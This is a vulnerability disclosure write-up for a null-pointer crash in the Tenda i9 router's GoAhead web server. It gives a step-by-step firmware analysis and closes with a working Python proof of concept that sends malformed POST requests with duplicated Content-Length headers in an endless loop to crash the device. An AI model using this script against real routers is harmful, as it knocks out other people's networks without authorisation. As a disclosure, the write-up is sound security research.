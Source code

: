 # Overview
Details of the vulnerability found in the tenda router i9 V1.0.0.8(3828).

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| i9    | V1.0.0.8(3828)    | https://www.tenda.com.cn/download/detail-2571.html   |




# Vulnerability details
## Vulnerability trigger Location
The following vulnerability analysis and explanation are based on the i9 router with  firmware version `V1.0.0.8(3828)`.

For easier analysis, I referred to the GoAhead 2.5 source code on https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names accordingly in Ghidra. The vulnerability trigger location is at the `strlen` function call within the `websReadEvent` function, at address 0x429bc0.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `0x41ca9c` to get the index of the ?. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`. ![websUrlParse](./assets/2.png) ![websUrlParse](./assets/3.png) 

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xd8(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value.
    ![else_content_length](./assets/4.png)
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xe0 = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `buf` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*buf = 0`. The corresponding assembly location is at `0x416e18`.![socketGets](./assets/5.png)

- Due to conditions such as nbytes = 0 being met, wp->state = 8 is finally set in the websGetInput function at address 0x42a4a8.![wp_state_8](./assets/6.png)

- At address 0x4299b0 in the websReadEvent function, the value of iVar2 is obtained as wp->state, which is 8. ![7](./assets/7.png)

- As a result, in the `websReadEvent` function, because `wp->state = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.![ivar2_8](./assets/8.png)

# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
##  I9 &nbsp;&nbsp; V1.0.0.8(3828)
![9.png](./assets/9.png)

# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.